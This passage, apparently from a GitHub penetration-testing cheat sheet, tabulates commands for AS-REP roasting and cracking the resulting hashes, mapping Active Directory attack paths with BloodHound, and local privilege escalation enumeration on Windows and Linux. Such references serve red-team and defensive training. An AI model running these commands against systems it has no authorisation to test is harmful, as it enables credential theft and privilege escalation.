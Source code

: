 | Get tickets | Rubeus | `Rubeus.exe asreproast /format:hashcat /outfile:asrep.txt` | Extract AS-REP hashes |
| | Impacket | `GetNPUsers.py domain/ -no-pass -usersfile users.txt` | Extract AS-REP hashes |
| Crack hashes | Hashcat | `hashcat -m 18200 asrep.txt wordlist.txt` | Crack AS-REP hashes |
| **Bloodhound** ||||
| Collect data | SharpHound | `SharpHound.exe -c All` | Collect AD info |
| | Python | `bloodhound-python -u user -p password -d domain.local -ns 192.168.1.100 -c All` | Python-based collector |
| Import data | BloodHound | GUI: Upload data files | Analyze attack paths |
| Find paths | BloodHound | Queries: "Shortest Path to Domain Admins" | Identify privilege escalation paths |

## Local Privilege Escalation

| Method | Tool/Command | Example | Notes |
|--------|--------------|---------|-------|
| **Windows** ||||
| Initial enumeration | WinPEAS | `winPEASany.exe` | Automated privilege escalation checks |
| | PowerUp | `Invoke-AllChecks` | PowerShell-based enumeration |
| Service vulnerabilities | PowerUp | `Get-ServiceUnquoted` | Find unquoted service paths |
| | PowerUp | `Get-ModifiableServiceFile` | Find modifiable service binaries |
| Kernel exploits | Watson | `Watson.exe` | Find kernel vulnerabilities |
| | Windows-Exploit-Suggester | `windows-exploit-suggester.py --database 2023-04-15-mssb.xls --systeminfo sysinfo.txt` | Match patches against exploits |
| Token impersonation | Incognito | `incognito_cmd_exe list_tokens -u` | List available tokens |
| | Rotten Potato | `rottenpotato.exe` | Token impersonation technique |
| DLL hijacking | Process Monitor | Filter for "NAME NOT FOUND" + "PATH" | Find missing DLLs |
| **Linux** ||||
| Initial enumeration | LinPEAS | `./linpeas.sh` | Automated privilege escalation checks |
| | Linux Smart Enumeration | `./lse.sh -l 2` | Level 2 verbosity enumeration |
| SUID binaries | Find | `find / -perm -u=s -type f 2>/dev/null` | Find SUID executables |
| Sudo rights | Sudo | `sudo -l` | List allowed sudo commands |
| Kernel exploits | Linux-Exploit-Suggester | `./linux-exploit-suggester.sh` | Match kernel against known exploits |
| Cron jobs | Check crontab | `cat /etc/crontab` | Find scheduled tasks |
| | Pspy | `./pspy64` | Monitor processes without root |
| Capabilities | Check caps | `getcap -r / 2>/dev/null` | Find binaries with capabilities |
| Path abuse | PATH variable | `echo $PATH` | Check for writeable directories in PATH |
